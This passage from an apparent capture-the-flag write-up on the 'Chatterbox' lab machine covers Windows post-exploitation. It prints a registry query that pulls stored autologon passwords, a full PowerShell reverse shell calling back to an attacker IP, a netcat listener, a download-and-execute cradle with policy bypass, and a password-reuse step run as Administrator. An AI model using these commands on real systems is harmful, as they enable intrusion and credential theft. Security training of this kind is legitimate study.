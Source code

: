 After getting access, it seems like there are cached credentials:

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

![user2](./chatterbox/user2.png)

Maybe try for password reuse? Without an interactive shell, use PowerShell. Save the following PowerShell as `bubba.txt`:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.25',7777);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String);
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush();
}
$client.Close();
```

Then host the payload on Kali:

```bash
sudo python3 -m http.server 80
nc -nvlp 7777
```

Then trigger execution on the target:

```bash
powershell.exe -exec bypass -c IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.25/bubba.txt')
```

Now run the following PowerShell:

```bash
$p = ConvertTo-SecureString -String 'Welcome1!' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential('Administrator', $p)
Start-Process -FilePath 'whoami' -Credential $c -RedirectStandardOutput stdout.txt -RedirectStandardError stderr.txt
```

![root1](./chatterbox/root1.png)
